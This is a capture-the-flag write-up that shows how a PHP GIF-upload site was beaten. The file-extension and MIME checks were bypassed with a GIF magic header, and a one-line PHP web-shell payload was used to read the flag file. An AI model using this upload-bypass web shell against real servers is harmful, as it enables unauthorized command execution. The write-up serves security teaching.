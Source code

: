 # gif
> I made a secure php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## About the Challenge
We have been given a plain website that has the functionality to upload a GIF file.

![preview](images/preview.png)

## How to Solve?
The first thing I want to test is `Unrestricted File Upload` vulnerability where we can upload malicious file such as PHP file

![first_try](images/first_try.png)

At first I tried to upload a PHP file but the server wants us to upload GIF file. So I tried to change the extension file and the MIME type

![second_try](images/second_try.png)

The server still rejects our request. Now, I am trying to add the GIF magic header. (You can check another file's magic header [here](https://en.wikipedia.org/wiki/List_of_file_signatures))

![third_try](images/third_try.png)

Yay success, now access the uploaded file on `uploads` endpoint. To obtain the flag, try to upload below code into the server

```php
GIF89A; <?php system("cat /flag.txt"); ?>
```

![flag](images/flag.png)

```
bucket{1_h4t3_PHP}
```